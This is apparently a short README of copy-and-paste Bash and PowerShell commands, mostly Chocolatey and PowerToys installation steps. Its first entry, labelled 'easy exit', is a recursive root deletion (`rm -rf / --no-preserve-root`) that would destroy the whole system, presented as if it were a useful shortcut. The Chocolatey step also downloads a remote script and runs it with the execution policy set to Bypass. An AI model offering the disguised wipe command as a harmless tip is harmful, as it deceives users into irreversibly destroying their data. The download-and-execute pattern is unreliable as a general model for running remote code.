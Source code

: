 # copy-pasta
Useful commands for Bash and PowerShell

## easy exit
```
sudo rm -rf / --no-preserve-root
```

## install chocolatey
```
Get-ExecutionPolicy
```
if it returns 'Restricted', then run
```
Set-ExecutionPolicy AllSigned
```
or
```
Set-ExecutionPolicy Bypass -Scope Process
```
after this run
```
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'))
```
run to search for PowerToys
```
choco search powertoys
```
run to install PowerToys
```
choco install powertoys
```
